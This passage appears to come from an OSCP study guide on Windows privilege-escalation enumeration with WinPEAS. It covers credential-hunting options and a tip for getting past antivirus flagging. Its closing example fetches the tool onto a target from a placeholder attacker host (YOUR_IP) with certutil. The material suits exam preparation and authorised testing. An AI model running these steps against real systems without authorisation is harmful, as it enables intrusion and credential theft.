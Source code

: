 ### Efficient Enumeration Strategy

1. **Start with user context checks**:
   ```cmd
   whoami /priv
   net user <username>
   ```

2. **Run WinPEAS with fast option** for quick overview:
   ```cmd
   winPEASany.exe quiet fast
   ```

3. **Follow up with searchfast** to find potential credential files:
   ```cmd
   winPEASany.exe quiet searchfast
   ```

4. **Use targeted commands** for specific areas of interest:
   ```cmd
   # If you suspect service vulnerabilities
   winPEASany.exe quiet cmd servicesinfo
   
   # If you need credential hunting
   winPEASany.exe quiet cmd windowscreds
   
   # If you suspect vulnerable processes
   winPEASany.exe quiet cmd processinfo
   ```

5. **If automated tools fail**, fall back to manual enumeration commands

This approach provides a balance between thoroughness and efficiency, which is crucial for the OSCP exam where time management is essential.

### Common Issues and Solutions

- If WinPEAS is flagged by antivirus, try using the batch script version (`winPEAS.bat`)
- If specific checks are causing errors, use the targeted command approach with `cmd` parameter
- If WinPEAS execution is extremely slow, start with `searchfast` and targeted commands instead of full scans

Remember that while automated tools like WinPEAS are powerful, understanding the underlying enumeration techniques and having fallback manual commands ready is crucial for success in the OSCP exam.

## Practical Example

Here's how to use WinPEAS in a typical privilege escalation scenario:

1. **Transfer the tool to the target**:
   ```cmd
   # On your attack machine, host the file via HTTP
   python3 -m http.server 8080
   
   # On the Windows target
   certutil -urlcache -f http://YOUR_IP:8080/winPEASany.exe winPEAS.exe
   ```
